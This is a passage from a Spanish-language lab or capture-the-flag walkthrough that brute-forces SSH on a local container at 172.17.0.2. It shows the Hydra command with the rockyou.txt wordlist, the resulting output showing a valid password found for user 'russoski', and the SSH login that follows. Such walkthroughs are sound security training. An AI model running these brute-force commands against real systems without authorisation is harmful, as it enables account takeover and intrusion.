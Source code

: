 ### Implicaciones de Seguridad
El uso de la misma identificación para múltiples servicios puede simplificar significativamente el proceso de acceso no autorizado si se compromete una sola cuenta. Este hallazgo nos orienta a intentar reutilizar las credenciales obtenidas en otros servicios del sistema para ver si podemos elevar nuestros privilegios o acceder a más información sensible.

### Uso de Hydra para Acceso SSH

Dado el descubrimiento de que el usuario Russoski utiliza el mismo nombre de usuario en todos sus servicios, decidimos lanzar un ataque de fuerza bruta con Hydra para intentar obtener las credenciales de SSH. Utilizamos la conocida lista de contraseñas `rockyou.txt` para este propósito.

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 > resultado_hydra
```

#### Resultados de Hydra
Hemos obtenido el login de `russoski` , como guardamos todo, vamos a leer el fichero `resultado_hydra`

```bash
cat resultado_hydra
```

Resultados del archivo `resultado_hydra`:
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-29 21:32:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 112.00 tries/min, 112 tries in 00:01h, 14344290 to do in 2134:35h, 13 active
[22][ssh] host: 172.17.0.2   login: russoski   password: 
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-29 21:33:31
```

Con la contraseña obtenida, procedemos a acceder al sistema:

```bash
ssh russoski@172.17.0.2
```

Al ingresar la contraseña, confirmamos que estamos dentro del sistema como el usuario Russoski.

```bash
russoski@94f77d56cc59:~$ whoami
russoski
russoski@94f77d56cc59:~$ 
```

Este comando confirma que el nombre de usuario con el que estamos logueados es `russoski`, indicando que nuestro acceso al sistema ha sido exitoso y ahora tenemos control sobre la cuenta de usuario de Russoski en el servidor.
